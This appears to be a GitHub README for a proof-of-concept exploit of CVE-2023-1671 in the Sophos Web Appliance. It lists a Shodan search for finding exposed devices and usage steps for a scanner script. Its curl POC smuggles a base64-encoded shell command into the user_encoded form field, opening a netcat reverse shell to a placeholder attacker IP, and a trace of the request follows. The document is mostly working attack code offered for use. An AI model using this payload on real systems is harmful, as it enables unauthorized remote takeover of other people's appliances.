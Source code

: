 ## CVE-2023-1671
- Shodan dorks: <br/>
	  title:"Sophos Web Appliance" <br/>
	  
### Usage
      chmod +x scanner.sh
	  ./scanner.sh target.txt
	  
### POC
	  curl -k --trace-ascii % "https://victim_ip_addr/index.php?c=blocked&action=continue" -d "args_reason=filetypewarn&url=$RANDOM&filetype=$RANDOM&user=$RANDOM&user_encoded=$(echo -n "';nc -e /bin/sh attacker_ip_addr 4444 #" | base64)"



      => Send header, 184 bytes (0xb8)
      0000: POST /index.php?c=blocked&action=continue HTTP/1.1
      0034: Host: XX.XX.XX.XX
      004a: User-Agent: curl/7.88.1
      0063: Accept: */*
      0070: Content-Length: 120
      0085: Content-Type: application/x-www-form-urlencoded
      00b6:
      => Send data, 120 bytes (0x78)
      0000: args_reason=filetypewarn&url=16625&filetype=5831&user=4525&user_
      0040: encoded=**************************
